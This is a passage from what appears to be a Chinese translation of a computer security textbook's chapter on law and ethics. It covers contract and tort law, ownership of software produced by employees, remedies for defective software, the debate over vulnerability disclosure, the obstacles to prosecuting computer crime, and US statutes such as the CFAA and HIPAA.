侵权的基本测试标准是一个理性人会如何行事。**欺诈** 是侵权法的一个常见例子，基本上是指一个人对另一个人撒谎，从而造成损害。撒谎或占不公平便宜是社会所不容许的。

计算机信息非常适合适用侵权法。法院只需裁决什么是合理行为，而无需判断成文法是否涵盖该活动。例如，未经许可获取他人信息并将其作为自己的卖给他人属于欺诈。信息所有者可以起诉您，即使没有成文法规定信息窃取是非法的。该所有者因被剥夺了您出售信息所得的收入而受到损害。

由于侵权法仅作为一系列不断演变的法院判决而发展，因此起诉侵权案件可能很困难。如果您涉及基于侵权法的案件，您和您的律师可能会尝试两种途径：首先，您可以辩称您的案件明显违反了社会规范，这不是一个公正、审慎的人会做的事。这种途径可能确立新的侵权行为。其次，您可以辩称您的案件类似于一个或多个先例，例如将计算机程序与艺术作品进行类比。法官或陪审团必须裁决该比较是否恰当。通过这两种方式，法律可以演变以涵盖新的客体。

> **侵权法是适当行为的非成文标准主体，记录于先前的法院判决中。**

#### 合同法

对计算机客体的第三种保护形式是**合同**。合同是双方之间的协议。合同必须包含三要素：

- 要约
- 承诺
- 对价

一方提出要约：“我将为此金额为您编写此计算机程序。”第二方可以接受要约、拒绝要约、提出反要约，或直接置之不理。在达成合同协议时，只有承诺才是关键；其余只是达成协议的历程。合同必须包含金钱或其他贵重物品的对价。基本思想是双方交换有价值的事物，例如用时间换金钱，或用技术知识换营销技能。例如，“如果你请我吃晚餐，我就帮你洗车”或“我们交换这两张 CD”都是定义了对价的要约。合同最好采用书面形式，但这并非必须。书面合同可能包含数百页的条款和条件，对要约和对价进行限定。

合同的最后一个方面是其自愿性：双方必须自愿签订合同。如果我说“签这份合同，否则我就打断你的胳膊”，即使保住胳膊对你来说是极具吸引力的对价，该合同也无效。在胁迫下签署或伴随欺诈行为的合同不具备约束力。只要双方自由接受条件，合同不必在对价对等的意义上对双方都公平。

> **合同法涉及双方商定的书面条件。**

信息常在合同下进行交换。合同非常适合保护信息的转移，因为它们可以规定任意条件。“您有权使用但不得修改此信息”、“您有权使用但不得转售此信息”或“您有权自行查看此信息但不得允许他人查看”都是三种潜在的合同条件，可保护信息所有者的商业利益。

##### 计算机合同

计算机合同通常涉及软件和计算机数据的开发与使用。正如我们稍后将指出的，关于谁有权签订软件合同——雇主还是雇员——以及对软件质量有何种合理预期，都有相关规定。

如果合同条款得到履行且对价交换发生，每个人都会很高兴。通常是这样。当一方认为条款已履行而另一方持不同意见时，困难就产生了。

与侵权法一样，合同法中最常见的法律救济是金钱。你同意向我出售一条纯金项链，我却发现它是黄铜做的。我起诉你。假设法院支持我，它可能会强制你向我交付一条金项链，但更常见的是法院会裁定我有权获得一定金额的赔偿。在项链案例中，我可能会首先主张追回我最初支付给你的钱，然后主张附带损害赔偿，例如因你的黄铜项链把我的皮肤染绿而不得不看医生的费用，或当朋友指着我的项链大喊“看那个廉价黄铜项链！”时我感到的尴尬。我可能还会主张惩罚性赔偿，以惩罚你并防止你再次做出这种不名誉的事情。法院将裁定我的哪些主张成立以及什么是合理的赔偿金额。

#### 计算机工件保护摘要

本节概述了法律在计算机硬件、软件和数据方面的应用要点。显然，这几页内容仅涉及皮毛；法律有着无数的微妙之处。尽管如此，到现在你应该已经大致了解了可用于何种事物的保护类型以及如何使用它们。刑法与民法的区别总结见表 11-2。


**表 11-2** 刑法与民法对比

合同有助于填补刑法、民法和侵权法之间的空白。也就是说，在缺乏相关法规的情况下，我们首先看到普通侵权法的发展。但随后人们通过编写包含其想要的特定保护的合同来强化这些法律。


# 民法——侵权或合同——的执行成本可能很高，因为它要求一方起诉另一方。法律体系在非正式上受金钱影响。起诉一位能够支付巨额判决赔偿的富有当事方很有吸引力。而一家能负担得起数十位顶级律师的大公司，在诉讼中胜诉的可能性比普通个人大得多。

## 11.3 雇员与雇主的权利

雇主雇佣雇员是为了产生创意和制造产品。版权、专利和商业秘密提供的保护对雇主有吸引力，因为它们适用于创意和产品。然而，谁拥有这些创意和产品的所有权问题是复杂的。所有权是计算机安全关注的问题，因为它关系到雇主保护雇员制作作品的保密性和完整性的权利。在本节中，我们将研究雇主和雇员对其计算机产品的各自权利。

### 产品所有权

假设 Edye 在一家计算机软件公司工作。作为工作的一部分，她开发了一个用于管理计算机屏幕显示窗口的程序。该程序属于她的公司，因为公司支付报酬让 Edye 编写该程序：她是作为工作任务的一部分编写的。因此，Edye 不能自行推销该程序。即使她为一家非软件相关的公司工作，但作为工作的一部分开发了该软件，她也不能出售它。大多数雇员都了解这方面对雇主的责任。

反之，假设 Edye 在晚上在家开发该程序；这不是她工作的一部分。然后她试图自行推销该产品。如果 Edye 是一名程序员，她的雇主很可能会说 Edye 从工作中获得的培训和经验中获利；至少，Edye 很可能是在工作时构思或思考该项目的。因此，雇主对她的程序拥有权益（即至少拥有部分权利）。然而，如果 Edye 的主要工作不涉及编程，情况就会改变。如果 Edye 是一名电视新闻播音员，她的雇主可能没有为她的计算机产品贡献任何相关内容。如果她的工作不涉及编程，她可能可以自由推销她制作的任何计算机产品。如果 Edye 业余时间编写的程序是一个追踪族谱的应用程序，她的雇主可能也不想要该程序的权利，因为这远非其业务领域。（如果你身处此类情况，应与雇主确认以求稳妥。）

***

**雇佣合同可为双方阐明雇员对计算机产品的权利。**

***

最后，假设 Edye 不是公司的雇员。相反，她是一名自雇顾问，收取费用为客户编写定制程序。考虑一下她在这种情况下的法律地位。她可能想使用基本的程序设计，稍作概括，然后推销给其他人。Edye 认为是她构思、编写和测试了该程序；因此，这是她的作品，她拥有所有权。她的客户则认为是客户付钱让 Edye 开发该程序，客户拥有该程序，就像客户付钱让她造个书架，书架就归客户所有一样。

显然，这些情况各不相同，解释所有权法律很困难。让我们依次考虑每种保护类型。

#### 专利所有权

根据专利法或版权法，作品的所有者是发明人；在前面的例子中，所有者是程序员或雇主。根据专利法，了解谁提交专利申请很重要。如果雇员让雇主为一项发明申请专利，则视为雇主拥有该专利，从而拥有该发明的权利。

如果雇员的工作职能包括发明该产品，雇主也有权申请专利。例如，在一家大公司，科学家可能被雇佣从事研发工作，这项发明性工作的成果就成为雇主的财产。即使雇员为某项发明申请了专利，如果雇主在开发该发明过程中提供了一些资源（如计算机时间、图书馆或数据库访问权限），雇主可以主张拥有使用该发明的权利。

#### 版权所有权

拥有版权类似于拥有专利。作者（程序员）被推定为作品的所有者，所有者拥有对客体的所有权利。然而，一种称为`职务作品`的特殊情况适用于许多软件或其他产品开发的版权。

##### 职务作品

在`职务作品`情况下，`雇主`而`非`雇员被视为作品的作者。职务作品不易识别，部分取决于雇佣发生地所在州的法律。如果满足以下部分或全部条件，雇员与雇主之间的关系即被视为职务作品。（满足的条件越多，情况越像职务作品。）

* 雇主具有监督关系，监督创作工作的完成方式。
* 雇主有权解雇雇员。
* 雇主在作品创作前安排了该工作（而非出售现有作品）。
* 雇主与雇员之间的书面合同规定雇主雇佣雇员从事特定工作。

在 Edye 在工作中开发程序的情况下，她的雇主肯定会主张存在职务作品关系。此时，雇主拥有所有版权，并应在版权声明中取代作者被标识。

***

**在职务作品中，雇主是雇员工作成果的创作者和所有者。**

***

##### 许可证

###### 许可软件：雇佣开发的替代方案

雇佣开发的一种替代方案是`许可软件`。在这种情况下，程序员开发并保留软件的完全所有权。作为费用的交换，程序员授予公司使用该程序的许可。许可可以授予确定或无限期限，用于一份副本或无限数量，在一个地点或多个地点使用，在一台机器或所有机器上使用，在指定或无限时间使用。这种安排对程序员高度有利，正如雇佣开发安排对雇主高度有利一样。在雇佣开发与许可之间的选择，很大程度上取决于双方将达成的协议。

### 商业秘密保护

商业秘密不同于专利或版权，因为没有注册的发明人或作者；不存在商业秘密注册机构。如果商业秘密被泄露，所有者可以就所受损害起诉泄露者。但首先，必须确立所有权，因为只有所有者才能受到损害。

公司拥有其业务机密数据的商业秘密。一旦秘密被开发出来，公司即成为所有者。例如，一旦销售数字被累积，公司即拥有它们的商业秘密权，即使这些数字尚未被编译、汇总、概括、打印或分发。与版权类似，雇主可能会辩称对商业秘密的开发有贡献。如果你的商业秘密是一种改进的排序算法，而你的工作部分涉及调查和测试排序算法，你的雇主很可能会主张对你试图推销的算法至少拥有部分所有权。

#### 雇佣合同

雇佣合同通常会明确规定所有权。但有时软件开发人员和潜在雇主之间没有合同。签订合同对雇员和雇主都有利，以便双方都了解自己的权利和责任。

通常，雇佣合同规定雇员受雇作为程序员专门为公司利益工作。公司声明这是雇佣开发情况。公司主张对开发的任何程序拥有所有权利，包括所有版权和营销权。合同可能进一步规定，雇员作为受雇的一部分获得某些商业秘密的访问权，并同意不向任何人泄露这些秘密。

从雇员角度来看，更具限制性的合同将所有发明（专利）和所有创意作品（版权）的权利分配给雇主，而不仅仅是那些直接源于工作的成果。例如，假设一名雇员被汽车公司雇佣为会计师。在工作期间，该雇员发明了一种在汽车发动机中更高效燃烧燃料的方法。雇主会辩称雇员利用公司时间思考该问题，因此公司有权获得该产品。将所有发明权利转让给雇主的雇佣合同将进一步加强这一主张。

合同中有时会包含竞业禁止协议。雇主声称仅仅为一家雇主工作就会使雇员对竞争对手非常有价值。雇员同意在离职后的一段设定时间内，不通过在同一领域工作来进行竞争。例如，担任涉及操作系统设计的高级职位的程序员，理所当然地熟悉大量操作系统设计技术。该雇员可能记住专有操作系统的主要部分，并能在很短时间内为竞争对手编写一个类似的系统。为防止这种情况，雇主可能要求雇员不为竞争对手工作（包括作为独立承包商工作）。竞业禁止协议在法律上并不总是可强制执行的；在某些州，雇员的谋生权优先于雇主的权利。

## 11.4 软件故障的补救措施

到目前为止，我们已经将程序、算法和数据视为所有权的对象。但这些对象的质量参差不齐，与之相关的某些法律问题涉及它们功能正常或良好的程度。事实上，人们对于“公平”、“良好”和“审慎”等术语在计算机软件、程序员和供应商方面的含义，存在合理的分歧。法律在存在广泛共识时最容易适用。在本节中，我们将仔细审视质量在各种法律纠纷中所起的作用。同时，我们也将审视软件质量的伦理层面，预示着本章后面更广泛的伦理讨论。

程序开发是一个涉及大量沟通和交互的人类设计、创建和测试过程。基于这些原因，我们生产的软件中将始终存在错误。我们有时期望完美的消费品，如汽车或割草机。有时，我们期望产品“足够好”以供使用，即大多数实例都是可接受的。通常，我们不介意披萨上奶酪量的差异或陶瓷砖颜色的轻微不规则。如果产品实例不可用，我们期望卖方提供适当的补救措施，如维修或更换。事实上，处理这些问题的方式有助于建立供应商优质服务的声誉；在极少数出现问题时，好的供应商会及时礼貌地进行补救。

但软件的情况截然不同。公平地说，操作系统比披萨或陶瓷砖复杂得多，存在更多故障机会。因此，本节探讨三个问题：

* 销售正确且可用的软件涉及哪些法律问题？
* 生产正确且可用的软件涉及哪些道德或伦理问题？
* 发现、报告、公开和修复缺陷涉及哪些道德或伦理问题？

在某些方面，法律问题正在演变。每个人都承认所有供应商*应该*生产优质软件，但这并不总能实现。更棘手的问题出现在开发和维护社区中，关于发现故障时该怎么做。

### 销售正确的软件

软件是一种产品。它是带着目的和受众构建的，并由消费者购买，用于预期用途和预期环境。消费者对合理的质量和功能水平有一定期望。从这个意义上说，购买软件就像购买收音机。如果你买到有故障的收音机，你拥有与购买相关的特定法律权利，并在必要时可在法庭上强制执行。如果你发现收音机有问题，可能有三种反应：你想要退款，你想要一台不同的（无故障）收音机，或者你想要有人修理你的收音机。对于软件，你有相同的三种可能性，我们依次考虑每一种。

为了考虑我们针对软件的替代方案，我们必须首先调查故障代码的性质。软件为什么不好？一种可能是它是在有缺陷的介质上交付的。例如，`CD` 可能有缺陷，导致你无法在计算机上加载软件。在这种情况下，几乎任何商家都会毫无争议地将有缺陷的副本换成新的。

#### 我要退款

如果商品是收音机，你在商店里就有机会看一看、听一听，以评估其音质、测量尺寸（如果要放在特定空间里），并检查是否有瑕疵。对于软件，你有这种机会吗？大概没有。

美国《统一商法典》（`UCC`）管辖美国境内买卖双方的交易。第 2-601 条规定：“如果货物或交货要约在任何方面都不符合合同，买方可以拒收。”你可能在购买前没有机会试用软件，尤其是在你自己的电脑上试用。你的检查往往无法在商店进行（商店往往不喜欢你自带电脑、拆开他们的密封软件、在你的机器上安装软件并检查功能）。即使你能在商店试用软件（在商店的电脑上），你可能也无法评估它如何与其他必须配合使用的应用程序协同工作。于是你把软件带回家，却发现它虽然没有缺陷，但不符合你的需求。你有权获得一个合理的期限来检查软件，时间要足够长以便试用其功能。如果你在合理的短时间内决定该产品不适合你，你可以引用 `UCC §2-601` 来获得退款。（你可能必须说服供应商你退回了收到的一切，即你没有在电脑上安装并保留副本。）

***

**软件理应可在合理时间内退货退款。**

***

不过，更多时候，你想退货是因为软件质量根本不够高。遗憾的是，通过法律手段强制要求软件正确性更为困难。

#### 我要软件好用

由于多种原因，大众市场软件的质量要求通常超出了法律强制执行的范围。

- 大众市场软件很少完全糟糕。某些功能可能无法工作，缺陷可能导致某些功能无法按规格或广告宣传那样工作。但该软件对其众多用户中的大多数有效，或对所有用户在大多数时间有效。
- 厂商“资金雄厚”。个人起诉大厂商可能会发现，厂商拥有由数十名全职律师组成的常设法务团队。对个人而言，提起诉讼的成本高得令人望而却步。
- 法律补救通常导致金钱赔偿，而非强制修复有缺陷软件的命令。
- 厂商几乎没有动力修复小问题。除非某个问题会严重损害厂商形象，或可能使厂商面临巨额赔偿，否则没有理由去修复那些仅影响少数用户、或不导致产品不适合一般用途的问题。

因此，法律补救最适用于大规模投诉，例如来自政府的投诉，或代表大量不满且敢于发声的用户群体的投诉。《统一商法典》的“适销适用”条款规定，产品必须可用于其预期用途；无法工作的软件显然不可用。《统一商法典》可能帮你追回钱款，但你未必能最终得到能正常工作的软件。

一些厂商非常重视客户。发现缺陷时，他们会及时调查问题并立即修复严重问题，或许将较小的修正留待后续版本发布。这些公司的动力更多来自公众形象或道德义务，而非法律要求。

Roland Trope [TRO04] 提出了“网络适航性”保证。该保证将声明制造商已勤勉地搜查安全漏洞并移除了所有已知的关键漏洞。此外，供应商将在发布后继续搜查漏洞，一旦发现任何关键漏洞，将联系受影响方提供补丁和变通方案。目前，制造商需对所有可能的缺陷承担潜在责任，一个重大的安全关键缺陷可能代价高昂。Trope 的方法将责任范围限制在合理及时地解决已知缺陷上。

##### 报告软件缺陷

谁应该公开缺陷——用户还是制造商？用户可能想获得发现缺陷的认可；延迟发布可能让别人抢了这个功劳。制造商可能想忽略问题，或不给用户致谢。双方还可能互指对方有错。此外，这些缺陷该如何报告？存在几种不同的观点。

###### 你不知道的会伤害你

2001 年“红色代码”（见第 3 章）的几个变体引发了一场辩论：我们是否应该允许完全披露允许恶意代码进入并在我方系统中繁衍的机制。例如，“红色代码”的第一个变体相对良性，但第三和第四个变体威力强大。当第一个“红色代码”变体出现时，许多安全分析师对其进行了研究，包括位于加利福尼亚州阿利索维耶霍的 eEye Digital Security 公司的分析师。为了迫使供应商和软件管理者严肃对待这些威胁，eEye 实行对其所知安全缺陷的完全披露。

然而，一些观察家声称，这种公开共享信息恰恰让黑客得以了解漏洞并加以利用。几位开发人员怀疑，eEye 对“红色代码”的公开披露助长了更强大变体的编写和传播 [HUL01]。

Scott Culp [CUL01]，微软 Windows 安全经理，区分了“完全披露”与“完全暴露”；他认为应保护源代码或漏洞概念的详细解释。许多安全分析师鼓励用户和管理者立即应用补丁，在安全漏洞被利用前将其堵住。但正如我们在侧边栏 3-5 中所见，补丁需要资源，且在修复初始问题的同时可能引入其他问题。每个使用软件的组织都必须分析并权衡不行动的风险和成本，与立即行动的风险和成本。

###### 厂商的利益

微软认为，为每个发现的漏洞单独制作一个补丁，对供应商和用户而言都效率低下。供应商可能更倾向于将多个补丁捆绑成一个服务包，或针对非关键漏洞，留待下一个版本再处理。因此，微软希望控制漏洞报告是否公开以及何时公开。

微软首席技术官 Craig Mundie 建议，有更强有力的理由将漏洞信息的披露降至最低。“每当我们明确指出遗留产品中存在的问题时，我们披露的回应就是将攻击聚焦起来。本质上，我们最终是在将他们引向漏洞。” [FIS02a] Scott Culp 认为 [CUL01]，“供应商的责任在于其客户，而非自诩为安全社区的人。”他反对所谓的“信息无政府状态，……即不顾信息可能如何被使用，故意发布利用安全漏洞的明确分步说明的做法。”但他也承认，开发、分发和应用补丁的过程是不完美的，他所在的公司“需要让用户更容易保持其系统的安全。”

###### 用户的利益

以发现供应商程序缺陷而著称的安全研究人员 David Litchfield 于 2002 年 5 月宣布，他将不再自动等待供应商的补丁，然后再公开发布漏洞公告。他援引“迟缓和不愿意在发现安全问题时及时修补” [FIS02b]，批评了将多个漏洞的修复方案捂着不发，直到积累足够多以证明发布单个 Service Pack（服务包）合理为止的做法。他指出，无论是否公开，漏洞依然存在。如果一位报告者发现了该问题，那么任意数量的恶意攻击者也可能发现。供应商若未能针对其知情的漏洞及时提供补丁，就会让用户毫无防备地暴露在用户可能不知情的攻击之下。

Litchfield 的解决方案是给供应商施加压力。他宣布将在公开漏洞信息（但不公开利用细节）前，给供应商一周的通知期。

###### “负责任的”漏洞报告

显然，供应商和用户的利益冲突必须在某个妥协立场上达成一致。Christey 和 Wysopal [CHR02] 提出了一种漏洞报告流程，满足及时性、公平性和责任性的约束。他们将报告疑似漏洞的用户称为“报告者”，将制造商称为“供应商”。当报告者和供应商之间出现权力问题或冲突时，第三方——如计算机应急响应中心——称为“协调员”，也可发挥作用。基本上，该流程要求报告者和供应商执行以下操作：

* 供应商必须机密地向报告者确认收到漏洞报告。
* 供应商必须机密地向报告者同意漏洞存在（或提出反驳理由）。
* 供应商必须在 30 天内通知用户该漏洞及任何可用的对策，或根据需要向报告者请求额外时间。
* 通知用户后，供应商可向报告者请求 30 天的静默期，以便用户有时间安装补丁。
* 静默期结束时，供应商和报告者应商定一个日期，届时可向公众发布漏洞信息。
* 供应商应将发现漏洞的功劳归于报告者。
* 如果供应商不遵循这些步骤，报告者应与协调员合作，确定一种负责任的方式来公开漏洞。

由于没有权威机构能强制用户或供应商遵守，此类提议只能具有共同商定流程的地位。

##### 高质量软件

顾问 Boris Beizer 曾说：“软件发布时带有缺陷。零缺陷的概念是神话般的，理论上无法实现。这并不意味着发布行为异常或无用的软件；而是意味着要对我们发现的缺陷与用户公开，发送通知或附上缺陷清单，在有变通办法时发布它们，并诚实、公开地说明我们已经测试了什么、尚未测试什么，以及近期计划测试什么、不计划测试什么。” [COF02]

关于如何以及何时披露漏洞的整个争论，回避了真正的问题。世界不需要更快的补丁，而是需要交付给用户后拥有更少漏洞的更好软件。Forno [FOR01] 说：“有线世界面临的最重大危险和漏洞，是继续接受并将企业和消费者计算机环境标准化于一次又一次被证明不安全、不稳定、且充满未记录缺陷（‘特性’）的技术之上，这些缺陷例行公事地将互联网社区置于风险之中。”

2002 年 1 月，微软 CEO Bill Gates 宣布，生产缺陷极少的高质量软件是微软的最高优先级，高于新功能。XP 操作系统的开发经理宣布，他要求参与 XP 开发的程序员参加安全编程课程。该举措奏效了吗？在 2002 年 6 月的一个五天周期内，微软发布了六个单独的安全漏洞补丁。2003 年 11 月，微软转为每月发布一次补丁，并在 2003 年至 2009 年这六年间，平均每月分发两到三个新的关键补丁（*PCWorld*，2009 年 10 月 24 日）。

问题不在于漏洞修补有多及时，也不在于漏洞公告发布了多少细节。问题在于，正如 James P. Anderson 报告 [AND72] 早在四十多年前指出的那样，“渗透和修补”是一个致命缺陷的概念：修补一个缺陷后，渗透者总能发现其他旧缺陷，或因补丁而引入的新缺陷，或补丁本身的新缺陷。这关乎技术、心理、社会学、管理和经济。在我们生产出始终可靠的软件之前，我们的整个计算基础设施都面临严重风险。

***

**披露漏洞会鼓励供应商开发和分发补丁，但在时间压力下修补补丁却违背了彻底修复缺陷的目标。**

***

## 11.5 计算机犯罪


# 与合同和雇佣相关的法律

与合同和雇佣相关的法律很复杂，但至少雇员、对象、合同和所有者是相当标准的实体，针对它们的法律先例已发展了几个世纪。当版权和专利法中的定义应用于数字对象时显得勉强，因为旧形式必须适配新对象；然而对于这些情况，目前正在裁决的案件正在建立法律先例。但涉及计算机的犯罪是法律领域中比其他领域更不明确的一个领域。在本节中，我们将研究计算机犯罪，并探讨为何需要新法律来解决其部分问题。

## 为何需要单独的计算机犯罪类别

犯罪可归入特定公认的类别，包括*谋杀*、*抢劫*和*乱扔垃圾*。我们不会按不同武器将犯罪分类，如*枪支犯罪*或*刀具犯罪*，但我们会根据受害者是*人*还是*其他对象*将犯罪受害者分类。尽管如此，开车撞碎邻居的大窗户，与开车撞上他的常青树或宠物羊，后果可能同样严重。让我们通过一个例子来看看，为何计算机犯罪类别还不够用，以及为何我们需要将计算机作为犯罪主体和客体的专门法律。

## 财产规则

### 计算机犯罪的法律挑战

Donn Parker 和 Susan Nycom [PAR84] 描述了一起商业秘密专有软件包被盗的案件。该盗窃行为通过电话线跨越州界发生；这种跨州性质很重要，因为这意味着该罪行同时受联邦法律和州法律管辖。加利福尼亚州最高法院裁定，这种软件获取行为不构成盗窃，因为：

> `Section 499c(a)` 中“article”（物品）的定义隐含了其必须是*有形*的……根据此处的记录，被告并未将任何有形物品……从计算机带到其终端，除非被告据称导致通过电话线传输的脉冲可被称为有形。*法院认为，此类脉冲不是有形的，因此不构成“article（物品）”。*

法律体系对什么构成财产有明确规定。通常，财产是有形的，不同于磁脉冲。例如，未经授权使用邻居的割草机构成盗窃，即使割草机归还时的基本状况与被拿走时相同。对计算机专业人员而言，未经许可复制软件包显然是盗窃。幸运的是，法律会随时代演进，20 世纪 80 年代的这种解释已被修正，现在比特被认可为财产项目，即使你无法将比特握在手中。

计算机服务也存在类似问题。我们通常认为未经授权访问计算系统是犯罪。例如，如果陌生人进入你的花园四处走动，即使未触碰或损坏任何东西，该行为也被视为非法侵入。然而，由于计算机访问不涉及物理对象，并非所有法院都将其作为严重犯罪惩处。

### 证据规则

计算机打印输出已在许多成功的起诉中作为证据使用。常用的是在日常操作过程中生成的计算机记录，例如系统审计日志。

根据证据规则，法院倾向于采用一份证据的最佳版本（称为最佳证据规则）。原始文件优于副本，但原始文件可能不可用。只要原始文件因非提交证据方过错的其他原因不可用，副本即可被采纳。如果有人作证，例如证明曾在前一天听到双方同意合同条款，或有人识别并证明副本上的签名，副本的效力会增强。商业记录完全可以作为证据。显示相关时间段内活动的计算机打印输出是可靠证据，特别是当系统管理员或其他负责人能够作证：系统持续生成此日志数据，且该打印输出准确反映了日志文件的内容。

***

**所有证据碎片都有助于法官或陪审团权衡证据。可信的证据在得出结论时分量更重。**

***

基于计算机的证据在法庭上最大的困难在于证明证据的真实性。执法官员在保管链要求下工作：从获取一份证据到在法庭上呈示，他们清晰完整地追踪对该物品拥有亲自保管权的人员的顺序和身份。保管链的目的是确保在证据呈堂前，无人有机会以任何方式篡改证据。

对于基于计算机的证据，建立保管链可能很困难。如果犯罪发生在周一，但直到周三才被发现，谁能验证日志文件未被篡改？事实上，随着不同进程生成日志条目，日志文件可能已被修改多次。关键在于令人信服地证明：周一 2:37 的日志条目确实对应周一该时刻发生的事件，而非周四试图在犯罪发生很久之后栽赃嫁祸的伪造线索。系统管理员和专家证人均可就日志内容的准确性发表意见证词。

**取证分析**是一个领域，计算机安全专家在其中检查磁盘驱动器、日志文件、程序代码、甚至易失性内存等工件，以辨别所含数据的事实。我们在 `Chapter 3` 中引入的“显微镜和镊子”（由 Jerome Saltzer 提出）一词，很好地刻画了这些分析师为使自己乃至法庭信服保留数据的内容和含义所必须进行的艰苦细致的工作。

### 对完整性和机密性的威胁

数据的完整性和保密性也是许多法庭案件中的问题。Parker 和 Nycom [PAR84] 描述了一个案例：闯入者获得了对计算系统的远程访问。该系统包含关于人员的机密记录，数据的完整性至关重要。该案件的起诉必须以窃取计算机时间为措辞，并按此估值，尽管这与隐私丧失和数据破坏相比微不足道。为什么？因为成文法认可窃取计算机时间构成损失，却不认可隐私丧失或数据销毁构成损失。

然而现在，多项联邦和州法律承认个人数据的隐私权（详见 `Chapter 9`）。例如，未经许可泄露成绩或财务信息属于犯罪，侵权法也会认可其他计算机滥用案件。

### 数据的价值

在另一起计算机犯罪中，某人被判定从计算机数据库窃取了大量数据。然而，法院认定该数据的“价值”仅为其打印所用纸张的成本，仅几美元。基于该估值，该犯罪被归类为轻罪，视为轻微犯罪。

幸运的是，法院此后已认定信息和其他无形资产可能具有重大价值。数字数据与许多其他贵重物品一样，值多少取决于买方愿支付多少。

### 为何难以定义计算机犯罪

从这些例子可以看出，法律界已缓慢适应计算机的进步。法律程序中的一些人不了解计算机和计算，因此涉及计算机的犯罪并不总能得到妥善处理。制定和修改法律是缓慢的过程，旨在对拟议变更的影响进行深思熟虑。这种审慎过程与计算技术飞速发展的步伐严重脱节。

除了技术快速变化的问题，计算机在犯罪中可扮演多种角色，这加剧了问题。特定计算机可以是犯罪的主体、客体或媒介。计算机可能遭受攻击（尝试未经授权访问）、被用于发动攻击（冒充网络上的合法节点）、被用作犯罪手段（特洛伊木马或伪造登录）。根据某些法律，用计算机砸人头也是计算机犯罪。计算机犯罪法规必须涵盖所有这些恶行。

### 为何难以起诉计算机犯罪

即使所有人都承认发生了计算机犯罪，起诉仍很困难，原因如下。

* **缺乏理解**。法院、律师、警务人员或陪审员不一定了解计算机。许多法官在计算机发明前就开始执业，大多数在个人计算机普及前就开始执业。幸运的是，随着法官、律师和警官在日常工作中使用计算机，法庭上的计算机素养正在提高。

#### 计算机犯罪起诉面临的挑战

• **缺乏物理证据**。警方和法院多年来一直依赖有形证据，如指纹。正如福尔摩斯的读者所知，看似微不足道的线索也能引导破解最复杂的案件（至少柯南·道尔是这么让你相信的）。但许多计算机犯罪根本没有指纹，也没有任何物理线索。

• **缺乏政治影响力**。侦破并定罪谋杀或抢劫案深受公众欢迎，因此检察官和警察局长会给予高度优先级。而侦破并定罪一个晦涩的高科技犯罪，尤其是不涉及明显重大损失的案件，可能得到的关注较少。然而，随着计算技术的普及，计算机犯罪的可见度和影响力将随之增加。

• **案件复杂性**。人人都能理解的基本犯罪，如谋杀、绑架或汽车盗窃，起诉相对容易。复杂的洗钱或税务欺诈案向陪审团陈述时难度更大，因为陪审员难以理清盘根错节的会计线索。但最难陈述的可能是高科技犯罪，例如：通过缓冲区溢出获取 `root` 权限，内存被其他指令覆盖，导致攻击者能随意复制并执行代码，随后删除代码，抹除所有入侵痕迹（当然，前提是先禁用了审计日志）。

• **被告年龄**。许多计算机犯罪由未成年人实施。社会理解未成年人的不成熟，甚至不予追究其严重罪行，因为他们不了解行为的后果。一个更严重的相关问题是，许多成年人将未成年人计算机犯罪视为恶作剧，类似于现代版的推倒旱厕。

即使有确凿犯罪证据，受害者也可能因担心负面宣传而不愿起诉。银行、保险公司、投资公司、政府机构和医疗集团认为，若计算机漏洞暴露，公众信任度会下降。他们也可能担心他人模仿作案（即所谓的“模仿犯罪”）。基于以上所有原因，计算机犯罪往往不被起诉。

***

**计算机犯罪往往错综复杂，向陪审团解释困难且结果不确定。面对自由裁量权，检察官可能更倾向于起诉较简单的谋杀或抢劫案。**

***

## 法律条文示例

正如 20 世纪 80 年代的几个案例所示，早期起诉计算机犯罪受阻于缺乏对涉及计算机犯罪的性质或严重性的清晰认知。尽管盗窃、伤害他人和破坏财产由来已久属于犯罪，但在某些情况下，新法律有助于向法院明确何种计算机相关行为是不可接受的。目前大多数州都颁布了涵盖各类计算机犯罪的法律。此外，计算机相关犯罪现已纳入量刑指南。

本节重点介绍几部针对或利用计算机实施犯罪的定罪法律。

### 美国《计算机欺诈与滥用法案》

主要联邦法规 `18 USC 1030` 于 1984 年颁布，此后多次修订。该法规禁止：

• 未经授权访问包含国家国防或外交关系保护数据的计算机

• 未经授权访问包含特定银行或金融信息的计算机

• 未经授权访问、使用、修改、销毁或披露代表美国政府运行的计算机或其中的信息

• 未经许可访问“受保护计算机”，法院现解释为包括任何连接互联网的计算机

• 计算机欺诈

• 传输导致计算机系统或网络损坏的代码

• 买卖计算机密码

处罚范围为 5,000 美元至 100,000 美元，或犯罪所得价值的两倍（以较高者为准），或监禁 1 年至 20 年，或两者并罚。

### 美国《经济间谍法案》

该 1996 年法案禁止利用计算机从事有利于外国或外国企业的间谍活动，或窃取商业秘密。

### 美国《信息自由法案》

《信息自由法案》赋予公众获取联邦政府行政部门收集信息的权利。该法要求披露任何可用数据，除非数据属于特定豁免范围，如国家安全或个人隐私。立法初衷是向个人公开政府收集的关于他们的任何信息。然而，提出信息请求的企业多于个人，旨在获取政府运作信息。甚至外国政府也可提出请求。该法仅适用于政府机构，尽管类似法律可能要求私营部门披露。其效力在于要求对敏感信息加强分类和保护。

### 美国《隐私法案》

1974 年《隐私法案》保护政府收集的个人数据隐私。个人有权确定收集了哪些关于自己的数据、收集目的及信息传播对象。该法另一用途是防止一政府机构为其他目的访问另一机构收集的数据。该法要求为保护收集的私人数据机密性做出勤勉努力。

### 美国《电子通信隐私法案》

该 1986 年颁布的法律旨在防止电子窃听。有几项重要限定条件。首先，执法机构始终可申请法院命令以获取通信内容或记录。该法修正案要求互联网服务提供商安装必要设备以配合法院命令的窃听。其次，该法允许互联网服务提供商阅读通信内容以维护服务或保护自身免受损害。例如，提供商可监控流量以查杀病毒。

### 格雷姆-里奇-布莱利法案

美国《格雷姆-里奇-布莱利法案》（公法 106-102）于 1999 年颁布，涵盖金融机构客户数据隐私。各机构须制定隐私政策并告知客户，客户有权拒绝超出必要业务用途以外的数据使用。该法及其实施条例还要求金融机构进行详细的安全风险评估。基于评估结果，机构必须采用全面的“信息安全计划”，旨在防止未经授权访问或使用客户非公开个人信息。

### HIPAA

1996 年，美国通过公法 104-191《健康保险流通与责任法案》（HIPAA）。虽然法案第一部分涉及工人终止雇佣后维持医保覆盖的权利，但第二部分要求保护个人医疗记录隐私。HIPAA 及其相关实施标准强制要求保护“可识别个人身份的医疗信息”，即可与特定个人关联的医疗数据。为保护个人医疗数据隐私，医疗服务提供者必须执行标准安全实践，例如：

• 强制执行“需知原则”。

• 确保最小必要披露。

• 指定隐私官员。

